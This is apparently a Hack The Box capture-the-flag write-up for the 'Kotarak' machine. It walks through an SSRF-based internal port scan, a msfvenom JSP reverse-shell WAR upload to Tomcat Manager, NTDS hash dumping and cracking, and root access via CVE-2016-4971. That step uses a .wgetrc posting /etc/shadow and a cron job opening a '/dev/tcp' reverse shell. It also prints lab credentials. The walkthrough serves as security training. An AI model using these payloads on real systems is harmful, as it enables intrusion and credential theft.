

---
tags:
  - ssrf
  - CVE-2016-4971
group: Linux
---


- Machine : https://app.hackthebox.com/machines/kotarak
- Reference : https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html
- Solved : 2025.2.25. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Identified open ports: **22 (SSH), 8009 (AJP), 8080 (Tomcat), 60000 (Apache HTTP)**
        - Multiple HTTP services detected, requiring further investigation.
    - **HTTP Enumeration**:
        - **Port 8080 (Tomcat)**: Found Tomcat Manager but could not log in with default credentials.
        - **Port 60000 (Kotarak Private Browser)**: Allowed fetching internal pages, leading to service enumeration.
        
2. **Internal Service Enumeration via SSRF**
    - Used **Kotarak Private Browser** to scan internal services.
    - Identified:
        - **Port 320**: "Super Sensitive Login Page" (username: `admin` exposed).
        - **Port 888**: "Simple File Viewer" listing internal files.
    - Found `tomcat-users.xml` in **Port 888**, revealing **Tomcat Manager credentials** (`admin:3@g01PdhB!`).
    
3. **Shell as `tomcat` on DMZ**
    - **Tomcat Manager WAR File Upload**:
        - Uploaded a **JSP reverse shell** using `msfvenom`.
        - Successfully obtained a shell as **tomcat**.
        
4. **Shell as `atanas`**
    - **NTDS Extraction**:
        - Found **NTDS.dit** and SYSTEM registry files in `/home/tomcat/to_archive/pentest_data/`.
        - Extracted NTLM hashes using `impacket-secretsdump`.
        - Cracked `atanas` NT hash (`Password123!`) but **`su` worked with `f16tomcat!`**.
        
5. **Shell as `root`**
    - **Identified `wget` Requests to Internal Host (10.0.3.133)**:
        - Found a scheduled **wget request** via logs (`app.log`).
    - **Privilege Escalation via CVE-2016-4971 (`wget` Arbitrary File Upload)**:
        - Redirected `wget` request to upload a **malicious cron job**.
        - The cron job executed a **reverse shell**, leading to `root` access.

### Key Techniques:

- **SSRF Attack**: Used Kotarak Private Browser for internal service enumeration.
- **Tomcat WAR Deployment**: Leveraged Tomcat Manager access to gain an initial shell.
- **NTDS Extraction & Hash Cracking**: Dumped and cracked NTLM hashes for user escalation.
- **Wget Exploit (CVE-2016-4971)**: Redirected scheduled `wget` requests to execute arbitrary commands.
- **Privilege Escalation via Cron Jobs**: Planted a malicious cron job to obtain a root shell.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.55
Performing quick port scan on 10.10.10.55...
Found open ports: 22,8009,8080,60000
Performing detailed scan on 10.10.10.55...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-25 00:20 MST
Nmap scan report for 10.10.10.55
Host is up (0.20s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
|   256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_  256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http    Apache Tomcat 8.5.5
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
|_http-favicon: Apache Tomcat
60000/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title:         Kotarak Web Hosting        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.32 seconds
```

4 ports are open : ssh(22), http(8009), http(8080), http(60000)
Since there are many http services are open, I need to inspect them carefully.

### http(8009)


It does not return a page.

### http(8080)


It returns 404 page, but not sure what the existing page is.
Given its UI, it seems to be a Tomcat service.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ gobuster dir -u http://10.10.10.55:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php             
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.55:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
```

I visited all found pages, but none of them were useful.
The only valid one I found is "Tomcat Manager" login.


I tried several default credentials, but none of them worked.
I think I need to re-visit it later.

### http(60000)



It looks like a simple private browser-like webpage.
It seems that it's taking the URL of the requesting website, and show the page indirectly via target webserver.

To test its function, I opened a temporary web server on kali.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.55 - - [25/Feb/2025 00:37:31] "GET / HTTP/1.1" 200 -
```

Then, let's submit the kali webserver's address through the input.


Then, I can see that it's including the requested web page.

Even when I'm putting `http://127.0.0.1:8080` which is one of the webserver of the target, it shows the page.


Another observation is that non-http service also returns the service's banner.
Through this, I thought that I could perform a service enumeration.

Here's an automated script for that.

```bash
#!/bin/bash

for i in {0..65535}; do 
  res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i});
  len=$(echo $res | wc -w); 
  if [ "$len" -gt "0" ]; then
    echo -n "${i}: "; 
    echo $res | tr -d "\r" | head -1 | cut -c-100; 
  fi;
done
```

It returns several existing internal pages as follows;

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ ./service-scan.sh                                      
22: SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2 Protocol mismatch.
90: <!DOCTYPE> <html> <head> <title>Under Construction</title> </head> <bodyd> <p>This page is under con
110: <html> <head> <title> favorites / bookmark title goes here </title> </head> <body bgcolor="white" te
200: <b>Hello world!</b>
320: <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd"><html> <he
888: <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en"> <head> <meta http-equiv="content
3306: 5.7.19-0ubuntu0.16.04.1PJV
                                ~I,���m3
                                        4+7=q mysql_native_password�Got packets out of orde
8080: <!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title><style type="text/css">H

```

I tested all found services, and most of them are just an empty services while some looks intriguing.


"Super Sensitive Login Page" sounds interesting. It's running on port 320.
Also, it exposes that the username is `admin`.


The "Simple File Viewer" service running on port 888 has many files in it.


Given its source code, I need to access the sub files, using the Kotarak private browser with prepending `http://127.0.0.1:888/?doc=`.

There are only 3 files which has actual data based on their sizes, and `backup` has useful information.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
    <user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>

</tomcat-users>
```

It shows an empty page with rendering, but has tomcat-manager credential when viewing it as source code.
It reveals `admin`'s password for tomcat-manager : `3@g01PdhB!`


# Shell as `tomcat` on DMZ

### WAR file uploading

First, let's login to tomcat-manager page with the found credential.


It allows us to deploy WAR file on its "Deploy" tab.

Let's create a payload.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.36 LPORT=9000 -f war > reverse.war
Payload size: 1086 bytes
Final size of war file: 1086 bytes
```

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.55] 34136
python3 --version
Python 3.5.2
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@kotarak-dmz:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@kotarak-dmz:/$ whoami
whoami
tomcat
```

I got `tomcat`'s shell!


# Shell as `atanas`

### Enumeration

```bash
ls /home
atanas  tomcat
```

It seems that there's one more user named `atanas`.

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ ls
ls
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

I found intereseting files in `/home/tomcat/to_archive/pentest_data`.
They seem to be `ntds.dit` file and `SYSTEM` (hopefully).

Let's download them and try to extract hashes from it.
Then, I extracted hashes using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ impacket-secretsdump -ntds kotarak-dmz.ntds.dit -system kotarak-dmz.system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from kotarak-dmz.ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from kotarak-dmz.ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
Administrator:des-cbc-md5:75375eda54757c2f
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded
WINXP1$:des-cbc-md5:984a40d5f4a815f2
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
WIN2K31$:des-cbc-md5:4cbf2ad3c4f75b01
WIN2K31$:rc4_hmac:cdd7a7f43d06b3a91705900a592f3772
WIN7$:aes256-cts-hmac-sha1-96:b9921a50152944b5849c706b584f108f9b93127f259b179afc207d2b46de6f42
WIN7$:aes128-cts-hmac-sha1-96:40207f6ef31d6f50065d2f2ddb61a9e7
WIN7$:des-cbc-md5:89a1673723ad9180
WIN7$:rc4_hmac:24473180acbcc5f7d2731abe05cfa88c
atanas:aes256-cts-hmac-sha1-96:933a05beca1abd1a1a47d70b23122c55de2fedfc855d94d543152239dd840ce2
atanas:aes128-cts-hmac-sha1-96:d1db0c62335c9ae2508ee1d23d6efca4
atanas:des-cbc-md5:6b80e391f113542a
[*] Cleaning up... 
```

I extracted several hashes to crack.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ cat hashes                                             
e64fe0f24ba2489c05e64354d74ebd11
31d6cfe0d16ae931b73c59d7e0c089c0
2b576acbe6bcfda7294d6bd18041b8fe
```


The last one is along with the user `atanas` the username I found from `/home` directory.
And its password cracked is `Password123!`.
Also, let's keep `f16tomcat!` as a reserved password just in case `Password123!` not working.

Let's use this to escalate shell.

First, I tried SSH login, but it seemed not working with any password.

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ ssh atanas@10.10.10.55
The authenticity of host '10.10.10.55 (10.10.10.55)' can't be established.
ED25519 key fingerprint is SHA256:h5gN7jkh7/u5jin+UCf9ioqIkqpm0NP2NdM/YaiE4FY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.55' (ED25519) to the list of known hosts.
atanas@10.10.10.55's password: 
Permission denied, please try again.
atanas@10.10.10.55's password: 
Permission denied, please try again.
```

Instead, I tried `su` from `tomcat`'s reverse shell, and the password `f16tomcat!` worked!

```bash
tomcat@kotarak-dmz:/$ su atanas -
su atanas -
Password: Password123!

su: Authentication failure
tomcat@kotarak-dmz:/$ su atanas -
su atanas -
Password: f16tomcat!

bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
atanas@kotarak-dmz:/$ 
```


# Shell as `root`

### Enumeration

```bash
atanas@kotarak-dmz:/root$ ls
ls
app.log  flag.txt
atanas@kotarak-dmz:/root$ cat flag.txt
cat flag.txt
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ cat app.log
cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```

On `/root` directory, there's a fake flag, and `app.log`.
Given the `flag.txt` message, it seems that there must be another place that stores flag.

Also, `app.log` shows a trace that there has been connections to `10.0.3.133` which is not the current host.
Let's check if the host is still alive.

```bash
atanas@kotarak-dmz:/root$ hostname -I
hostname -I
10.10.10.55 10.0.3.1 
atanas@kotarak-dmz:/root$ ping -c 2 10.0.3.133
ping -c 2 10.0.3.133
PING 10.0.3.133 (10.0.3.133) 56(84) bytes of data.
64 bytes from 10.0.3.133: icmp_seq=1 ttl=64 time=0.039 ms
64 bytes from 10.0.3.133: icmp_seq=2 ttl=64 time=0.046 ms

--- 10.0.3.133 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 999ms
rtt min/avg/max/mdev = 0.039/0.042/0.046/0.007 ms
```

From `LinPEAS` scan result, I found `authbind` which enables low port connection to normal users.

```bash
╔══════════╣ Useful software
/usr/bin/authbind                                                                            
/usr/bin/base64
/usr/bin/curl
/usr/bin/g++
/usr/bin/gcc
/usr/bin/lxc
/usr/bin/make
/bin/nc
/bin/netcat
/usr/bin/nmap
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python
/usr/bin/python2
/usr/bin/python2.7
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget
```

Let's open listener on port 80 using this and `nc`.

```bash
atanas@kotarak-dmz:/$ authbind nc -nlvp 80
authbind nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [10.0.3.133] port 80 [tcp/*] accepted (family 2, sport 44992)
GET /archive.tar.gz HTTP/1.1
User-Agent: Wget/1.16 (linux-gnu)
Accept: */*
Host: 10.0.3.1
Connection: Keep-Alive
```

Also, from the `User-Agent` part, I can see that the remote host is using **wget 1.16** to connect.

### Arbitrary File Uplaod via `wget`

```bash
┌──(kali㉿kali)-[~/htb/kotarak]
└─$ searchsploit wget 1.16
----------------------------------------------------------- ---------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------
GNU Wget < 1.18 - Access List Bypass / Race Condition      | multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload (2)                | linux/remote/49815.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Exec | linux/remote/40064.txt
----------------------------------------------------------- ---------------------
```

I searched if there's any exploit with `wget`, and there are Arbitrary File Upload exploits.

### CVE-2016-4971

```bash
atanas@kotarak-dmz:/tmp/ftptest$ cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_cat <<_EOF_>.wgetrc
> post_file = /etc/shadow
> output_document = /etc/cron.d/wget-root-shell
> 
_EOF_
```

After then, let's open a ftp server using `pyftpdlib`

```bash
atanas@kotarak-dmz:/tmp/ftptest$ authbind python -m pyftpdlib -p21 -w
authbind python -m pyftpdlib -p21 -w

[I 2025-02-25 07:48:35] >>> starting FTP server on 0.0.0.0:21, pid=67160 <<<
[I 2025-02-25 07:48:35] concurrency model: async
[I 2025-02-25 07:48:35] masquerade (NAT) address: None
[I 2025-02-25 07:48:35] passive ports: None
[I 2025-02-25 07:48:48] 10.0.3.1:59480-[] FTP session opened (connect)
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[] FTP session opened (connect)
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] USER 'anonymous' logged in.
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] RETR /tmp/ftptest/.wgetrc completed=1 bytes=70 seconds=0.0
[I 2025-02-25 07:50:01] 10.0.3.133:37580-[anonymous] FTP session closed (disconnect).
```

Then, prepare `wget-exploit.py` to enable redirection `wget` request to `.wgetrc`.
The code is here : https://www.exploit-db.com/exploits/40064
I modified the IP and cronjob part :

```bash
HTTP_LISTEN_IP = '10.0.3.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.0.3.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.0.3.1/9000 0>&1' \n"
```

Let's run it.

```perl
atanas@kotarak-dmz:/tmp$ authbind python wget-exploit.py
authbind python wget-exploit.py
Ready? Is your FTP server running?
FTP found open on 10.0.3.1:21. Let's go then

Serving wget exploit on port 80...


We have a volunteer requesting /archive.tar.gz by GET :)

Uploading .wgetrc via ftp redirect vuln. It should land in /root 

10.0.3.133 - - [25/Feb/2025 07:50:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.0.3.1:21/.wgetrc 

We have a volunteer requesting /archive.tar.gz by POST :)
```

Then, let's open a listener on DMZ.

```bash
atanas@kotarak-dmz:/$ nc -nlvp 9000
nc -nlvp 9000
Listening on [0.0.0.0] (family 0, port 9000)
Connection from [10.0.3.133] port 9000 [tcp/*] accepted (family 2, sport 56832)
bash: cannot set terminal process group (1240): Inappropriate ioctl for device
bash: no job control in this shell
root@kotarak-int:~# id
uid=0(root) gid=0(root) groups=0(root)
```

I got a `root` shell!